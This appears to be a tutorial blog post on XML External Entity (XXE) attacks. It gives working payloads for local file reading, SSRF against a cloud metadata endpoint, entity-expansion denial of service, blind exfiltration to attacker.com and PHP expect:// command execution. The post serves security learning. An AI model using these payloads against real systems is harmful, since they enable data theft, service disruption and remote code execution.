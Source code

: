 ```yaml
---
layout:     post
title:      XXE
subtitle:   
date:       2020-01-13
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XXE
---
```


### XML & DTD quick intro

What is XML
- eXtensible Markup Language
- Structured syntax
- Designed to be human readable as well as machine readable

example:
```
<?xml version = "1.0" encoding = "utf-8"?>
<plane>
	<year> 1977 </year>
	<make> Cessna </make>
</plane>
```

DTD
- Document Type Definition
- Used for defining XML document structure
- Can also defined outside of the XML file(External)

```
<!DOCTYPE root-element [element-declarations]>
```
types of entities:
- Internal entity
```
<!ENTITY foo "bar">
```
This entity can be referred within the XML as &foo; and it will be replaced 
with the term "bar".

- External entity
```
<!ENTITY foo SYSTEM "file:///external.dtd">
```
We are mostly interested in the External entities.
- Parammeter
```
<!ENTITY % name "entity_value">
```
Used with % symbol

### Introduction to XXE
### Types of attacks

1. Classic XXE

**example:**

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe "thisistest">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John thisistest
```
This is not a vulnerability yet!

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe SYSTEM  "file:///etc/passwd">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John root:x:0:0:root
...
....[SNIP]
```
Now it is.


2. Server Side Request Forgery
**example:**
```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe SYSTEM  "http://169.254.169.254">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John 1.0
2007-01-09
2007-03-01
...
....[SNIP]
```

3. Denial of Service
**example:**
```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE lolz[<!ENTITY log "log"><!ENTITY lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol4 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol5 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol6 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol7 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol8 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol9 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">]>
<tag>&lol9;</tag>
```
4. Advanced XXE
**example:**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data[<!ENTITY % remote SYSTEM "http://attacker.com/call.dtd">%remote;]>
```
Parameter entities are special type of entities that can be used only withina DTD itself.
Tip:Use this payload to check for XXE vulnerabilities when user input is not reflected back on the page or in the response.

- Also know as Blind XXE
- Out of band data exfiltration
The payload to upload/send
```
<!DOCTYPE roottag[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
%dtd;]>
<roottag>&send;</roottag>
```
Content of host.dtd
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/collect.php?file=%file;'>">
%all;
```

5. Remote Code Execution
In some rare cases XXE can be elevated to execute system commands on the server
expect:// awesomeness!
expect:// is a PHP wrapper that can provide access to stdio, stdout and stderr.
In short, it can execute commands!
Sample payload :
```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://whoami"> ]>
```
<https://medium.com/@airman604/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7>
### Common places to find XXE
- XML file upload(e.g config files)
- XML input fields
- XML based APIs
- XML based files(RSS,SVG)
### uncommon places to find XXE
- MS Office files(docx,xlsx,etc.)
- SAML-based SSO
- VoiceXML in IVR systems
- Online Map editors using KML


### Tools
*  Xxeserv
A mini webserver with FTP support for XXE payloads
* oxml_xxe
A tool for embedding XXE/XML exploits into different filetypes

### Labs 
<https://github.com/jbarone/xxelab>
### Resource and References
<https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html>
<https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Preve
ntion_Cheat_Sheet.html>
<https://github.com/jbarone/xxelab>
<http://vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf>

